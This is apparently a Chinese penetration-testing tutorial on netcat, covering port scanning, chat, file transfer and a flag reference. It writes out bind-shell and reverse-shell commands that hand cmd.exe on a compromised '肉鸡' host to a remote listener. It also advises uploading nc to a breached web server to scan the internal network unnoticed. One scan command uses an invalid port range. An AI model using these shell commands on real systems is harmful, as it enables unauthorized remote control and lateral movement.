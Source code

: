 # Netcat常称为 nc，拥有“瑞士军刀”的美誉。
nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，
能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具
，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，
它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell

## nc端口扫描
最主要的用途是，当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。
然而，我们的nmap工具是不能扫描到内网的，所以这时我们可以把nc上传到web服务器上，
利用它来扫描内网主机。而由于nc体积很小，所以不容易被发现。

``` shell
nc -nvz  114.67.246.176  1-66666 -v
```

## 聊天
通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端—客户端模型。
服务器端：nc   -lvp    8888      #监听8888端口  -l 监听 -v 显示详细信息  -p 指定端口
客户端：nc  -nv  10.96.10.208  8888    #连接到服务器的8888端口  -n以数字形式显示ip  -v显示详细信息

## 文件传输
服务器端： nc  -lvp  8888 < test.txt
客户端： nc -nv 10.96.10.208 8888 > test.txt

## 反弹shell
```shell
肉鸡  nc -lvv -p 8888 -t -e cmd.exe
主机  nc  -nvv  192.168.10.14  8888
```

## 反向连接

``` shell
#主机  nc  -lvp  8888
#肉鸡  nc  -t -e cmd.exe 10.96.10.208 8888
```

### 蜜罐  一直监听8888端口，ctrl+C 停止
``` shell
​​​​​​nc  -L -p  8888  > log.txt   #监听8888端口，并且将日志信息写入log.txt中
```

```shell
  -l：开启监听
  -p：指定端口
  -t： 以telnet形式应答
  -e：程序重定向
  -n：以数字形式表示ip
  -v：显示执行命令过程
  -z :不进行交互，直接显示结果
  -u ：使用UDP协议传输
  -w :  设置超时时间

```